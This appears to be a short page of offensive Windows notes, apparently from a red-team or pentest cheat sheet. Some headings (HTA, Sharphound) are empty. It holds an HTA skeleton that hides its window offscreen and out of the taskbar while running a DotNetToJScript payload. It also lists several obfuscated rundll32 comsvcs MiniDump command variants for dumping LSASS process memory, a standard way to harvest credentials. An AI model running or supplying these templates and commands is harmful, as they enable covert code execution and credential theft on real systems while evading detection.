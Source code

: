 

## HTA





## Sharphound



## Active Directory

#### Force an update
```cmd
gpupdate /force
```



## Skeleton of Code

### HTA

```html
<html>
<head>
<script language="JScript">

<!-- ADD output from DotNetToJScript here. -->

window.resizeTo(0, 0);
window.moveTo(-32000, -32000);
</script>
<hta:application 
    showInTaskbar="no" 
    border="none" 
    caption="no" 
    maximizeButton="no" 
    minimizeButton="no" 
    sysMenu="no" 
    scroll="no"
/>
</head>
<body onload="window.blur();">
</body>
</html>
```


### Dump LSAS

```
rundll32 comsvcs MiniDump 0<pid> <filename> full
rundll32 comsvcs MiniDump +<pid> <filename> full
rundll32 comsvcs `#+24 <pid> <filename> full
rundll32 comsvcs, `#00000000000000000000024 <pid>  <filename> full
rundll32 "comsvcs"`#+24 <pid> <filename> full
rundll32 comsvcs,`#65560 <pid> <filename> full
```
